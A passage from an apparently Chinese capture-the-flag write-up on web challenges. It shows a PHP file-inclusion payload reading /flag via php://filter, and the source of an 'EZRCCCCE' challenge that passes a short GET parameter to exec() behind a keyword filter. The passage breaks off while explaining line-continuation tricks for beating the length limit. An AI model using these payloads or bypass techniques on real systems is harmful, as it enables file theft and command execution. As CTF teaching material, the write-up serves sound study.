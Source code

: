 访问一下，从echo来看包含成功了，getshell就行



![image-20240808152137864](https://img-blog.csdnimg.cn/img_convert/1d5a095ec4f529c0eab8cf97aa4a1103.png)



![image-20240808152201472](https://img-blog.csdnimg.cn/img_convert/6dd4f704502ce14707a4bc3b01918cb0.png)

此外还有一个payload，上传一个文件就行：

```has-numbering
<?php 
include"php://filter/convert.base64-encode/resource=/fl"."ag";

```

## EZRCCCCE



![image-20240808152956216](https://img-blog.csdnimg.cn/img_convert/5ee1ef4389eaf8b22c510d5535e494a3.png)

开题，直接给了源码



![image-20240808153107728](https://img-blog.csdnimg.cn/img_convert/93e7d6c3c34644d5e15f77c88383e7a4.png)

```prism
<?php
highlight_file(__FILE__);
$sandbox = './sandbox/' . md5("Th1s_is_4_sandbox" . $_SERVER['REMOTE_ADDR']);
@mkdir($sandbox);
@chdir($sandbox);
function filter($a){
    $a = preg_replace("/(flag|\*|\/|cat|php|bash|txt|tac)/i", "hehehehe", $a);
    return $a;}
if (isset($_GET['6']) && strlen($_GET['6']) < 8) {   //try to keep fit!
    echo(exec(filter($_GET['6'])));
}
?>

```

限制了输入的长度、具备少量WAF。

WAF绕过不难，最容易想到的就是同义替换或者base64

主要是思考如何突破长度限制

在linux中，当我们执行文件中的命令的时候，我们通过在没有写完的命令后面加 \，可以将一条命令写在多行 比如我们有一个test文件内容如下：

```has-numbering
ec\
ho \
hello \
world!

```
